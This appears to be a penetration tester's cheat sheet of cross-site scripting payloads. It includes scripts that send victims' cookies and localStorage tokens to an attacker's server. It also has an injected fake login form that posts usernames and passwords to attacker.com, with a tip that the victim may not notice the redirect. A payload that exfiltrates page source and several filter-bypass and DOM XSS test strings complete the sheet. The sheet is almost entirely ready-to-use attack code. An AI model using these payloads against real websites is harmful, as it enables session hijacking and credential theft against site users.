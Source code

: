 Steal Cookies
-----------------------
```
# Will not work if HttpOnly is in cookie header (modern browsers will block this)
# Use ruby SSL server or apache with SSL enabled for SSL connections
# Start Python Web Server
python -m SimpleHTTPServer 80
# Start PHP Web Server
php -S xxx.xxx.xxx.xxx:<port>
# Attack Script
<script>document.location="http://192.168.0.60/?c="+document.cookie;</script>
<script>new Image().src="http://192.168.0.60/index.php?c="+document.cookie;</script>
```

Stealing Sensitive Data from LocalStorage (Untested but looks cool)
-----------------------
```
# https://medium.com/redteam/stealing-jwts-in-localstorage-via-xss-6048d91378a0
<script>alert(JSON.stringify(localStorage))</script>
<img src=’https://xxx.xxx.xxx.xxx/yikes?jwt=’+JSON.stringify(localStorage);’--!>
```

Mouseover test
-----------------------
```javascript
<a href="" onmouseover="javascript:alert('HackerOne MkSecurity Dom XSS');">Click for Detail</a>
```

Use to test if script "<script>alert(123)</script>" tags are being blocked
-----------------------
```javascript
ackerokm7x<img src=a onerror=alert(1)>y09fr
ackerokm7x<img%20src=a%20onerror=alert(1)>y09fr
```

Testing for DOM based XSS
-----------------------
```
Modern browsers are not vulnerable? Must use Internet Explorer for proof of vuln.
Open Internet Explorer
Press F12
Select the "Emulation" tab
Select "Document Mode" "7" (Try other versions if one does not work)
Reload the page

The "#" symbol in this case means pass everything after it to the DOM
http://xxx.xxx.xxx.xxx/xss/example9.php#<script>alert(123)</script>
```


Submits credentials to the www.attacker.com, technically this is HTML Injection (Embeds Login Screen inside application)
-----------------------
```
# php -S xxx.xxx.xxx.xxx:80
# or
# service apache2 start 
# tail -f /var/log/access.log

# Gets stuck on attackers page, do the following to resolve issue, victim may not notice the redirect :)
# In Apache, edit index.html to look like this 
# <meta http-equiv="refresh" content="0;url=https://victims.website.com/link-they-started-on/">

<h3>Please login to proceed</h3> <form action=http://www.attacker.com>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```

Collect page source code (may contian sensitive data)
----------------------------
```
<script>new Image().src="https://www.attacker.com/bogus.php?output="+document.body.innerHTML</script>
```

